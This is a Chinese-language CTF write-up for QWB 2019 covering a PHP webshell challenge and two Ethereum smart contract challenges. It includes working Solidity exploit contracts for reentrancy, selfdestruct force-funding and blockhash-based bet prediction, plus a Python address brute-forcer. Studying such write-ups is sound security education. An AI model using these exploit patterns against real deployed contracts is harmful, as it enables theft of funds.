



# QWB 2019

### 高明的黑客

之前因为我自己写过phpWebshell扫描器，直接拿过来魔改了几行代码就能直接扫出来了。    




然后翻扫描log找到306行有问题：



看了下就一个很裸的system函数调用，没什么好说了




### babybank

然后是两道baby以太坊智能合约题，opcode直接在线decompile一下（ https://ethervm.io/ ，现在竟有这么好用的工具），再根据solidity mapping的storage的空间布局很容易就能分析出代码逻辑，比ethernaut的题还要简单。   

这题的主要思路就是经典的重入攻击 ，外加`selfdestruct`可以送钱和预测合约地址这两个甜点。    


```solidity
pragma solidity ^0.4.23;

contract babybank {
    mapping(address => uint) public balance;
    mapping(address => uint) public level;
    address owner;
    uint secret;
    
    //Don't leak your teamtoken plaintext!!! md5(teamtoken).hexdigest() is enough.
    //Gmail is ok. 163 and qq may have some problems.
    event sendflag(string md5ofteamtoken,string b64email); 
    
    constructor()public{
        owner = msg.sender;
    }
    
    //pay for flag
    function payforflag(string md5ofteamtoken,string b64email) public{
        require(balance[msg.sender] >= 10000000000);
        balance[msg.sender]=0;
        owner.transfer(address(this).balance);
        emit sendflag(md5ofteamtoken,b64email);
    }
    
    modifier onlyOwner(){
        require(msg.sender == owner);
        _;
    }
	
	function profit() public;/* {
		if(level[msg.sender]) throw;
		if(msg.sender & 0xffff != 0xb1b1) throw;
		balance[msg.sender] += 1;
		level[msg.sender] += 1;
	}*/
	
	function guess(uint arg0);/* {
		if (arg0 != secret) throw;
		if (level[msg.sender] != 1) throw;
		balance[msg.sender] += 1;
		level[msg.sender] += 1;
	}*/
	
	function transfer(address arg0, uint arg1);/* {
		if (arg1 > balance[msg.sender])) throw;
		if (arg1 != 2) throw;
		if (level[msg.sender] != 2) throw;
		balance[msg.sender] = 0;
		balance[arg0] = arg1;
	}*/
	
	function withdraw(uint arg0);/* {
		if (arg0 != 0x02) throw;
		if (arg0 > balance[msg.sender]) throw;
		
		mem[0x80] = msg.sender.call.gas(msg.gas).value(arg0 * 1 ether)(mem[0x80]);
		balance[msg.sender] -= arg0;
	}*/
}

contract ForceSendValue {
    function mySend() payable {
        babybank f = babybank(0xd630cb8c3bbfd38d1880b8256ee06d168ee3859c);
        selfdestruct(f);
    }
}

contract exploit {
    babybank f = babybank(0xd630cb8c3bbfd38d1880b8256ee06d168ee3859c);
    address owner;
    bool hasBeenPaid = false;
    
    constructor() {
        owner = msg.sender;
        f.profit();
        f.guess(0x3fde42988fa35); // web3.eth.getStorageAt("0xd630cb8c3bbfd38d1880b8256ee06d168ee3859c", 3, console.log)
    }
    
    function() public payable {
        if (!hasBeenPaid) {
            hasBeenPaid = true;
            f.withdraw.gas(msg.gas)(2);
        }
    }
    
    function exp() payable {
        ForceSendValue _f = new ForceSendValue();
        _f.mySend.value(400000000000000).gas(msg.gas)();
        f.withdraw.gas(msg.gas)(2);
    }
    
    function submit() {
        string memory tok = "<TOK>";
        string memory email = "<EMAIL>";
        f.payforflag(tok, email);
        selfdestruct(owner);
    }
}
```

因为这题需要用到智能合约的fallback函数`msg.sender`只能是智能合约，`profit()`里要`msg.sender`地址结尾是`b1b1`，这就要求我们要能预测账号地址生成的合约地址，利用下面的脚本可以生成账号地址使nonce=0的交易的智能合约部署地址结尾符合要求。

```python
from web3 import Web3, HTTPProvider
import rlp
from rlp.utils import decode_hex, encode_hex, ascii_chr, str_to_bytes
w3 = Web3(HTTPProvider('https://ropsten.infura.io/SdO4U3ydQdgK3D3eNE2Y'))
w3.eth.enable_unaudited_features()

def normalize_address(x, allow_blank=False):
    if allow_blank and x == '':
        return ''
    if len(x) in (42, 50) and x[:2] == '0x':
        x = x[2:]
    if len(x) in (40, 48):
        x = decode_hex(x)
    if len(x) == 24:
        assert len(x) == 24 and sha3(x[:20])[:4] == x[-4:]
        x = x[:20]
    if len(x) != 20:
        raise Exception("Invalid address format: %r" % x)
    return x

def get_deployed_contract_addr(acc_address, nonce):
	return Web3.toHex(Web3.sha3(rlp.encode([normalize_address(acc_address), nonce]))[12:])[2:]

acc=w3.eth.account.create()
while not get_deployed_contract_addr(acc.address, 0).endswith('b1b1'): 
	acc = w3.eth.account.create()
print(acc.privateKey.__repr__())
```

另外这题回调fallback函数的时候需要送钱，又没有payable函数，因此`exploit::exp()`中利用合约`selfdestruct`的强制送钱机制先强行氪金一波。

### babybet

嗯其实这题比babybank还简单，准备工作也少了很多。分析一下字典没名字的函数是个transfer函数就可以汇集钱了，直接raw形式用签名哈希调用就ok了。我要吐槽一下这个非得100万，gas limit不够用非要手动部署十几次`exploit`合约......     

直接上exp吧也没什么好说的，就利用智能合约动态获取链上公开信息来破解模拟的几年前的菠菜代码而已。

```solidity
pragma solidity ^0.4.23;

contract babybet {
    mapping(address => uint) public balance;
    mapping(address => uint) public status;
    address owner;
    
    //Don't leak your teamtoken plaintext!!! md5(teamtoken).hexdigest() is enough.
    //Gmail is ok. 163 and qq may have some problems.
    event sendflag(string md5ofteamtoken,string b64email); 
    
    constructor()public{
        owner = msg.sender;
        balance[msg.sender]=1000000;
    }

    //pay for flag
    function payforflag(string md5ofteamtoken,string b64email) public{
        require(balance[msg.sender] >= 1000000);
        if (msg.sender!=owner){
        balance[msg.sender]=0;}
        owner.transfer(address(this).balance);
        emit sendflag(md5ofteamtoken,b64email);
    }
    function profit();
    function bet(uint arg0);
	
	//function func_048F(address arg0, uint arg1); 0xf0d25268
}


contract exploit {
    constructor() {
        address owner = <OWNER>;
        for (uint i=0; i<50; i++) {
            address worker = new Worker();
        }
        selfdestruct(owner);
    }    
}

contract Worker {
    constructor() {
        bytes4 sign = 0xf0d25268;
        address owner = <OWNER>;
        babybet f = babybet(0x5d1beefd4de611caff204e1a318039324575599a);
        uint award = 1000;
        uint _owner = uint(owner);
        f.profit();
        uint b = uint(blockhash(block.number - 1)) % 3;
        f.bet(b);
        f.call(sign, _owner, award);
        selfdestruct(owner);
    }
}

```


